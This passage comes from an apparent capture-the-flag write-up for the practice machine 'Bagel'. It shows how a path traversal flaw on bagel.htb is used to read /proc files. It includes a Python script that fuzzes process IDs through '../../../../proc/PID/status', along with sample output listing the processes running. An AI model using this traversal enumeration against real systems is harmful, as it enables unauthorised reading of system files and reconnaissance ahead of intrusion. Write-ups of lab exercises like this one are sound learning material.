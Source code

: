 ### .NET

In our most recent finding, one can read a commented line stating: 

> don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.

This provides a valuable hint on how we should proceed: remember that Microsoft-NetCore service running on port 5000? Well, it seems like it corresponds to the `dotnet` linux command / process that handles requests to/from the `/orders` endpoint.

To find out more details about the `dotnet` process, let's take advantage of the other system files that were revealed by `wfuzz` earlier on (i.e., `../../../../proc/self/stat` and similar). A quick research on [The Linux Documentation Project](https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html), tells us that the `/proc` directory contains numerous files containing details about the processes actively running on the machine, sorted by `PID` (process ID). Perhaps most interestingly, the following files may be of interest in our case:

- /proc/PID/status --> displays basic information about the process itself, including its name
- /proc/PID/cmdline --> reveals the command line arguments (if any) that were utilized whenever launching the process

Thanks to a simple python script we can now fuzz processes currently running on the machine, in the attempt to identify which one(s) are related to .NET:

```
import requests

outfile = open("proc.txt", "a")

for i in range(1, 1000):

	url = "http://bagel.htb:8000/?page=../../../../proc/" + str(i) + "/status"
	req = requests.get(url).text.partition('\n')[0]
	output = str(i) + " " + req

	if ("File not found" not in req):
		print(output)
		outfile.write(output + "\n")

```

```
1 Name:	systemd
2 Name:	kthreadd
3 Name:	rcu_gp
4 Name:	rcu_par_gp
5 Name:	slub_flushwq
6 Name:	netns
8 Name:	kworker/0:0H-events_highpri
10 Name:	mm_percpu_wq
12 Name:	rcu_tasks_kthread
13 Name:	rcu_tasks_rude_kthread
14 Name:	rcu_tasks_trace_kthread
15 Name:	ksoftirqd/0
16 Name:	rcu_preempt
17 Name:	migration/0
19 Name:	cpuhp/0
20 Name:	cpuhp/1
21 Name:	migration/1
22 Name:	ksoftirqd/1
24 Name:	kworker/1:0H-events_highpri
25 Name:	kdevtmpfs
26 Name:	inet_frag_wq
27 Name:	kauditd
28 Name:	oom_reaper
30 Name:	writeback
```